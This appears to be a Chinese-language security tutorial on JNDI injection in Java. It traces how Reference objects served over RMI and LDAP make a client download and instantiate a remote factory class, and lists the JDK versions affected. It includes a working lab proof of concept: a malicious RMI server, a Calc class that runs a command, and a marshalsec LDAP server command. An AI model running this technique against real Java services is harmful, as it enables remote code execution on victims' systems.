








其实从基础知识可以看到，如果lookup()函数的访问地址参数控制不当，则有可能导致加载远程恶意类。

#  JNDI命名引用机制

这个机制是干啥的呢？其实简单来说就是为了方便引用远程对象，以便对象可以通过绑定由命名管理器解码并解析为原始对象的一个引用间接地存储在命名或目录服务中。

## JNDI中Reference类

`Reference` 类是 JNDI 引用机制的核心类，它位于 `javax.naming` 包中。Reference类表示对存在于命名/目录系统以外的对象的引用。比如远程获取 RMI 服务上的对象是 Reference 类或者其子类，则在客户端获取到远程对象存根实例时，可以从其他服务器上加载class文件来进行实例化。他不直接存储对象本身，而是存储"重建对象的配方"

Reference的主要字段

```java
// 目标对象的类名
protected String className;

// 存储属性的向量（引用地址列表）
protected Vector<RefAddr> addrs;

// 对象工厂的类名
protected String classFactory;

// 对象工厂的位置（codebase）
protected String classFactoryLocation;
```

Reference的构造函数

```java
// 只指定类名
public Reference(String className)

// 指定类名和工厂类名
public Reference(String className, String factory, String factoryLocation)

// 指定类名和引用地址
public Reference(String className, RefAddr addr)

// 指定类名、引用地址、工厂类名和位置
public Reference(String className, RefAddr addr, String factory, String factoryLocation)
```

有点像RMI中Codebase的功能？当在本地找不到所调用的类时，我们可以通过Reference类来调用位于远程服务器的类。

既然提到了Reference类，那接下来就来到JNDI注入的内容了

# JNDI注入的原理

JNDI (Java Naming and Directory Interface) 注入的核心原理在于 Java 允许通过 JNDI 接口动态加载外部资源（对象）。

当攻击者可以控制 JNDI `lookup` 函数的参数（URI）时，他们可以将其指向一个恶意的 RMI 或 LDAP 服务。如果被攻击的客户端配置允许加载远程 codebase，JNDI 会自动下载并实例化攻击者指定的恶意类，从而触发代码执行。

JNDI注入利用的是Java中的Naming References命名引用机制

正常情况下JNDI的lookup获取的是绑定在注册表的现有对象，但如果我们配置一个恶意的注册表并在里面绑定一个Reference对象，那么就会触发这个问题



可以看到这个 Reference 对象包含了三个关键信息：

1. **ClassName**: 目标类的名称（恶意类名）。
2. **ClassFactory**: 用于创建该类实例的工厂类名称。
3. **ClassFactoryLocation**: 该工厂类所在的 URL 地址（攻击者的 HTTP 服务器）。

当受害者的 JNDI 客户端收到这个 Reference 后，它发现本地没有这个类，于是就会去`FactoryLocation`指向的地址下载`.class`文件并加载运行。

# JNDI+RMI

## 测试代码

我这里用的是JDK8u65，JNDI注入有版本限制，这个后面再说

例如我们重新写一下服务端

```java
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;


public class JNDIRMIServer {
    public static void main(String[] args) throws Exception {
        Registry registry = LocateRegistry.createRegistry(1099);
        Reference reference = new Reference("Calc","Test","http://localhost:7777/");
        ReferenceWrapper wrapper = new ReferenceWrapper(reference);
        registry.rebind("remoteObj", wrapper);
    }
}
```

然后我们客户端不变化，也是一样的

然后我们的远程类

```java
public class Calc {
    public Calc()  {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

将java文件编译为class文件后启动一个python服务，注意端口要和上面配置的引用工厂类地址端口一致

```bash
python -m http.server 7777
```

然后分别运行服务端和客户端



## 代码分析

把断点打在客户端的lookup方法处开始调试

上篇文章也讲过了lookup的触发流程，最终会调用到RMI的lookup方法，也就是RegistryContext的lookup方法



registry是一个RMI registry注册表对象，是`java.rmi.registry.Registry` 接口的实例。

在 JNDI 注入中，因为 Reference 类本身没有实现 Remote 接口，不能直接绑定到 RMI 注册表，所以攻击者必须用`ReferenceWrapper`把`Reference`包裹起来，所以 `var2` 实际上是一个 `ReferenceWrapper_Stub`。随后进入decodeObject方法

```java
    private Object decodeObject(Remote var1, Name var2) throws NamingException {
        try {
            Object var3 = var1 instanceof RemoteReference ? ((RemoteReference)var1).getReference() : var1;
            return NamingManager.getObjectInstance(var3, var2, this, this.environment);
        } catch (NamingException var5) {
            throw var5;
        } catch (RemoteException var6) {
            throw (NamingException)wrapRemoteException(var6).fillInStackTrace();
        } catch (Exception var7) {
            NamingException var4 = new NamingException();
            var4.setRootCause(var7);
            throw var4;
        }
    }
```

先判断是否是ReferenceWrapper，也就是Reference对象，如果是就获取到远程的Reference对象，那么就会获取到恶意类Calc

进入getObjectInstance方法

```java
    getObjectInstance(Object refInfo, Name name, Context nameCtx,
                          Hashtable<?,?> environment)
        throws Exception
    {

        ObjectFactory factory;

        // Use builder if installed
        ObjectFactoryBuilder builder = getObjectFactoryBuilder();
        if (builder != null) {
            // builder must return non-null factory
            factory = builder.createObjectFactory(refInfo, environment);
            return factory.getObjectInstance(refInfo, name, nameCtx,
                environment);
        }

        // Use reference if possible
        Reference ref = null;
        if (refInfo instanceof Reference) {
            ref = (Reference) refInfo;
        } else if (refInfo instanceof Referenceable) {
            ref = ((Referenceable)(refInfo)).getReference();
        }

        Object answer;

        if (ref != null) {
            String f = ref.getFactoryClassName();
            if (f != null) {
                // if reference identifies a factory, use exclusively

                factory = getObjectFactoryFromReference(ref, f);
                if (factory != null) {
                    return factory.getObjectInstance(ref, name, nameCtx,
                                                     environment);
                }
                // No factory found, so return original refInfo.
                // Will reach this point if factory class is not in
                // class path and reference does not contain a URL for it
                return refInfo;

            } else {
                // if reference has no factory, check for addresses
                // containing URLs

                answer = processURLAddrs(ref, name, nameCtx, environment);
                if (answer != null) {
                    return answer;
                }
            }
        }

        // try using any specified factories
        answer =
            createObjectFromFactories(refInfo, name, nameCtx, environment);
        return (answer != null) ? answer : refInfo;
    }
```

首先是进行builder的判断，我们是Reference，所以这里会跳过

如果是Reference对象，就会调用getFactoryClassName获取到工厂类名Calc

```java
    public String getFactoryClassName() {
        return classFactory;
    }
```

随后会调用getObjectFactoryFromReference方法，跟进看看



第一个loadClass方法是本地加载，如果没找到就忽略异常继续执行



如果本地没找到，并且存在远程地址，这里会调用Reference的getFactoryClassLocation方法获取工厂类远程地址，如果不为空就进入if语句进行loadClass，这里的话需要将恶意类放在远程服务器上，如果放本地测试可能获取codebase是空，跟进后发现其实就是URLClassLoader的loadClass方法

最后进行了一个newInstance实例化的操作，那么就会调用到远程工厂类的构造函数，从而触发恶意代码

总结一下：在进入RMI的lookup方法中时，首先会进行Reference的获取，随后调用decodeObject对Reference对象进行getObjectInstance调用实例化处理，就会触发远程恶意类加载和newInstance实例化操作

# JNDI+LDAP

其实测试代码在上篇文章就写过了，我们也可以用github的工具试一下

```java
python3 -m http.server 8000

java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPfServer "http://127.0.0.1:8000/#Evil"

```

然后客户端依旧是一样的

然后主要还是看ldap的代码处理逻辑

## lookup代码分析



我记得之前没看过getURLOrDefaultInitCtx的逻辑，这里还是进去看看吧

跟进getURLOrDefaultInitCtx函数

```java
    protected Context getURLOrDefaultInitCtx(String name)
        throws NamingException {
        if (NamingManager.hasInitialContextFactoryBuilder()) {
            return getDefaultInitCtx();
        }
        String scheme = getURLScheme(name);
        if (scheme != null) {
            Context ctx = NamingManager.getURLContext(scheme, myProps);
            if (ctx != null) {
                return ctx;
            }
        }
        return getDefaultInitCtx();
    }
```

这里会判断是否有设置一个 `InitialContextFactoryBuilder`工厂创建类，如果有就用默认的初始上下文，否则就会解析URL中的协议并让 NamingManager 根据协议名去找对应的 Context 实现类



跟进getURLContext方法

```java
    public static Context getURLContext(String scheme,
                                        Hashtable<?,?> environment)
        throws NamingException
    {
        // pass in 'null' to indicate creation of generic context for scheme
        // (i.e. not specific to a URL).

            Object answer = getURLObject(scheme, null, null, null, environment);
            if (answer instanceof Context) {
                return (Context)answer;
            } else {
                return null;
            }
    }
```

经过getURLObject处理后会检查返回值石佛是Context对象，如果是就强制转换并返回，否则返回null，跟进getURLObject看看

```java
    private static Object getURLObject(String scheme, Object urlInfo,
                                       Name name, Context nameCtx,
                                       Hashtable<?,?> environment)
            throws NamingException {

        // e.g. "ftpURLContextFactory"
        ObjectFactory factory = (ObjectFactory)ResourceManager.getFactory(
            Context.URL_PKG_PREFIXES, environment, nameCtx,
            "." + scheme + "." + scheme + "URLContextFactory", defaultPkgPrefix);

        if (factory == null)
          return null;

        // Found object factory
        try {
            return factory.getObjectInstance(urlInfo, name, nameCtx, environment);
        } catch (NamingException e) {
            throw e;
        } catch (Exception e) {
            NamingException ne = new NamingException();
            ne.setRootCause(e);
            throw ne;
        }

    }
```

调用getFactory获取工厂类

```java
    public static Object getFactory(String propName, Hashtable<?,?> env,
            Context ctx, String classSuffix, String defaultPkgPrefix)
            throws NamingException {

        // Merge property with provider property and supplied default
        String facProp = getProperty(propName, env, ctx, true);
        if (facProp != null)
            facProp += (":" + defaultPkgPrefix);
        else
            facProp = defaultPkgPrefix;

        // Cache factory based on context class loader, class name, and
        // property val
        ClassLoader loader = helper.getContextClassLoader();
        String key = classSuffix + " " + facProp;

        Map<String, WeakReference<Object>> perLoaderCache = null;
        synchronized (urlFactoryCache) {
            perLoaderCache = urlFactoryCache.get(loader);
            if (perLoaderCache == null) {
                perLoaderCache = new HashMap<>(11);
                urlFactoryCache.put(loader, perLoaderCache);
            }
        }

        synchronized (perLoaderCache) {
            Object factory = null;

            WeakReference<Object> factoryRef = perLoaderCache.get(key);
            if (factoryRef == NO_FACTORY) {
                return null;
            } else if (factoryRef != null) {
                factory = factoryRef.get();
                if (factory != null) {  // check if weak ref has been cleared
                    return factory;
                }
            }

            // Not cached; find first factory and cache
            StringTokenizer parser = new StringTokenizer(facProp, ":");
            String className;
            while (factory == null && parser.hasMoreTokens()) {
                className = parser.nextToken() + classSuffix;
                try {
                    // System.out.println("loading " + className);
                    factory = helper.loadClass(className, loader).newInstance();
                } catch (InstantiationException e) {
                    NamingException ne =
                        new NamingException("Cannot instantiate " + className);
                    ne.setRootCause(e);
                    throw ne;
                } catch (IllegalAccessException e) {
                    NamingException ne =
                        new NamingException("Cannot access " + className);
                    ne.setRootCause(e);
                    throw ne;
                } catch (Exception e) {
                    // ignore ClassNotFoundException, IllegalArgumentException,
                    // etc.
                }
            }

            // Cache it.
            perLoaderCache.put(key, (factory != null)
                                        ? new WeakReference<>(factory)
                                        : NO_FACTORY);
            return factory;
        }
    }
```

`Context.URL_PKG_PREFIXES`是搜索路径，默认值是`com.sun.jndi.url`，随后进行了参数的拼接`"." + scheme + "." + scheme + "URLContextFactory"`

如果引入了其他第三方 JNDI 实现（比如 JBoss 或 WebLogic），可能会往这个列表里添加自己的包名。

这里scheme 是 ldap，默认前缀是`com.sun.jndi.url`，`ResourceManager.getFactory`会把它们拼接起来，尝试loadClass加载`com.sun.jndi.url.ldap.ldapURLContextFactory`获取工厂类

然后如果找到了这个工厂类就调用getObjectInstance方法进行实例化并返回

最终返回的是ldapURLContext的实例化对象，然后就会调用到ldapURLContext的lookup方法

```java
    public Object lookup(String var1) throws NamingException {
        if (LdapURL.hasQueryComponents(var1)) {
            throw new InvalidNameException(var1);
        } else {
            return super.lookup(var1);
        }
    }
```

跟进`GenericURLContext#lookup`

```java
    public Object lookup(String var1) throws NamingException {
        ResolveResult var2 = this.getRootURLContext(var1, this.myEnv);
        Context var3 = (Context)var2.getResolvedObj();

        Object var4;
        try {
            var4 = var3.lookup(var2.getRemainingName());
        } finally {
            var3.close();
        }

        return var4;
    }
```

和RMI的一样，先是进行了一个上下文初始化的操作，这里的Context是一个底层的 LDAP Context，并且会配置好连接目标和端口号



进入`PartialCompositeContext#lookup(javax.naming.Name)`

```java
    public Object lookup(Name var1) throws NamingException {
        PartialCompositeContext var2 = this;
        Hashtable var3 = this.p_getEnvironment();
        Continuation var4 = new Continuation(var1, var3);
        Name var6 = var1;

        Object var5;
        try {
            for(var5 = var2.p_lookup(var6, var4); var4.isContinue(); var5 = var2.p_lookup(var6, var4)) {
                var6 = var4.getRemainingName();
                var2 = getPCContext(var4);
            }
        } catch (CannotProceedException var9) {
            Context var8 = NamingManager.getContinuationContext(var9);
            var5 = var8.lookup(var9.getRemainingName());
        }

        return var5;
    }
```

进行一个for循环的p_lookup调用，进入看看

```java
    protected Object p_lookup(Name var1, Continuation var2) throws NamingException {
        Object var3 = null;
        HeadTail var4 = this.p_resolveIntermediate(var1, var2);
        switch (var4.getStatus()) {
            case 2:
                var3 = this.c_lookup(var4.getHead(), var2);
                if (var3 instanceof LinkRef) {
                    var2.setContinue(var3, var4.getHead(), this);
                    var3 = null;
                }
                break;
            case 3:
                var3 = this.c_lookup_nns(var4.getHead(), var2);
                if (var3 instanceof LinkRef) {
                    var2.setContinue(var3, var4.getHead(), this);
                    var3 = null;
                }
        }

        return var3;
    }
```

p_resolveIntermediate函数会将名字拆分成一个head和tail，并判断Status当前状态，会进一步调用`com.sun.jndi.ldap.LdapCtx.c_lookup`

```java
    protected Object c_lookup(Name var1, Continuation var2) throws NamingException {
        var2.setError(this, var1);
        Object var3 = null;

        Object var4;
        try {
            SearchControls var22 = new SearchControls();
            var22.setSearchScope(0);
            var22.setReturningAttributes((String[])null);
            var22.setReturningObjFlag(true);
            LdapResult var23 = this.doSearchOnce(var1, "(objectClass=*)", var22, true);
            this.respCtls = var23.resControls;
            if (var23.status != 0) {
                this.processReturnCode(var23, var1);
            }

            if (var23.entries != null && var23.entries.size() == 1) {
                LdapEntry var25 = (LdapEntry)var23.entries.elementAt(0);
                var4 = var25.attributes;
                Vector var8 = var25.respCtls;
                if (var8 != null) {
                    appendVector(this.respCtls, var8);
                }
            } else {
                var4 = new BasicAttributes(true);
            }

            if (((Attributes)var4).get(Obj.JAVA_ATTRIBUTES[2]) != null) {
                var3 = Obj.decodeObject((Attributes)var4);
            }

            if (var3 == null) {
                var3 = new LdapCtx(this, this.fullyQualifiedName(var1));
            }
        } catch (LdapReferralException var20) {
            LdapReferralException var5 = var20;
            if (this.handleReferrals == 2) {
                throw var2.fillInException(var20);
            }

            while(true) {
                LdapReferralContext var6 = (LdapReferralContext)var5.getReferralContext(this.envprops, this.bindCtls);

                try {
                    Object var7 = var6.lookup(var1);
                    return var7;
                } catch (LdapReferralException var18) {
                    var5 = var18;
                } finally {
                    var6.close();
                }
            }
        } catch (NamingException var21) {
            throw var2.fillInException(var21);
        }

        try {
            return DirectoryManager.getObjectInstance(var3, var1, this, this.envprops, (Attributes)var4);
        } catch (NamingException var16) {
            throw var2.fillInException(var16);
        } catch (Exception var17) {
            NamingException var24 = new NamingException("problem generating object using object factory");
            var24.setRootCause(var17);
            throw var2.fillInException(var24);
        }
    }
```

先是进行了LDAP 查询，如果 LDAP 条目里包含 javaSerializedData 属性，就执行decodeObject反序列化的操作，把数据变成`Reference`对象，跟进`DirectoryManager.getObjectInstance`

```java
public static Object
        getObjectInstance(Object refInfo, Name name, Context nameCtx,
                          Hashtable<?,?> environment, Attributes attrs)
        throws Exception {

            ObjectFactory factory;

            ObjectFactoryBuilder builder = getObjectFactoryBuilder();
            if (builder != null) {
                // builder must return non-null factory
                factory = builder.createObjectFactory(refInfo, environment);
                if (factory instanceof DirObjectFactory) {
                    return ((DirObjectFactory)factory).getObjectInstance(
                        refInfo, name, nameCtx, environment, attrs);
                } else {
                    return factory.getObjectInstance(refInfo, name, nameCtx,
                        environment);
                }
            }

            // use reference if possible
            Reference ref = null;
            if (refInfo instanceof Reference) {
                ref = (Reference) refInfo;
            } else if (refInfo instanceof Referenceable) {
                ref = ((Referenceable)(refInfo)).getReference();
            }

            Object answer;

            if (ref != null) {
                String f = ref.getFactoryClassName();
                if (f != null) {
                    // if reference identifies a factory, use exclusively

                    factory = getObjectFactoryFromReference(ref, f);
                    if (factory instanceof DirObjectFactory) {
                        return ((DirObjectFactory)factory).getObjectInstance(
                            ref, name, nameCtx, environment, attrs);
                    } else if (factory != null) {
                        return factory.getObjectInstance(ref, name, nameCtx,
                                                         environment);
                    }
                    // No factory found, so return original refInfo.
                    // Will reach this point if factory class is not in
                    // class path and reference does not contain a URL for it
                    return refInfo;

                } else {
                    // if reference has no factory, check for addresses
                    // containing URLs
                    // ignore name & attrs params; not used in URL factory

                    answer = processURLAddrs(ref, name, nameCtx, environment);
                    if (answer != null) {
                        return answer;
                    }
                }
            }
```

就是检查是否是Reference对象，如果是就获取类名，再去加载，加载的话就是getObjectFactoryFromReference方法

```java
    static ObjectFactory getObjectFactoryFromReference(
        Reference ref, String factoryName)
        throws IllegalAccessException,
        InstantiationException,
        MalformedURLException {
        Class<?> clas = null;

        // Try to use current class loader
        try {
             clas = helper.loadClass(factoryName);
        } catch (ClassNotFoundException e) {
            // ignore and continue
            // e.printStackTrace();
        }
        // All other exceptions are passed up.

        // Not in class path; try to use codebase
        String codebase;
        if (clas == null &&
                (codebase = ref.getFactoryClassLocation()) != null) {
            try {
                clas = helper.loadClass(factoryName, codebase);
            } catch (ClassNotFoundException e) {
            }
        }

        return (clas != null) ? (ObjectFactory) clas.newInstance() : null;
    }
```

首先尝试在本地加载工厂类，如果加载失败，就进行远程加载，最后进行实例化。

以上就是ldap的lookup逻辑了

当然，jndi注入也是有版本限制

# 版本限制

关于ldap的JNDI注入需要注意一点就是，LDAP+Reference的技巧远程加载Factory类不受RMI+Reference中的com.sun.jndi.rmi.object.trustURLCodebase、com.sun.jndi.cosnaming.object.trustURLCodebase等属性的限制，所以适用范围更广。但在JDK 8u191、7u201、6u211之后，com.sun.jndi.ldap.object.trustURLCodebase属性的默认值被设置为false，对LDAP Reference远程工厂类的加载增加了限制。

最终的版本限制是这样的：

| **协议** | **JDK6**  | **JDK7**  | **JDK8**  | **JDK11**  |
| :------- | :-------- | :-------- | :-------- | :--------- |
| LADP     | 6u211以下 | 7u201以下 | 8u191以下 | 11.0.1以下 |
| RMI      | 6u132以下 | 7u122以下 | 8u121以下 | 无         |

- 低版本 JDK：客户端发现本地没有该 Factory 类，会去 `classFactoryLocation` 指定的地址codebase下载 `.class` 字节码并实例化。恶意代码通常隐藏在 Factory 类的 `static {}` 静态代码块或构造函数中，在newInstance实例化时触发 RCE。
- 高版本 JDK (8u191+)：由于 `trustURLCodebase` 默认为 false，远程下载被禁止。
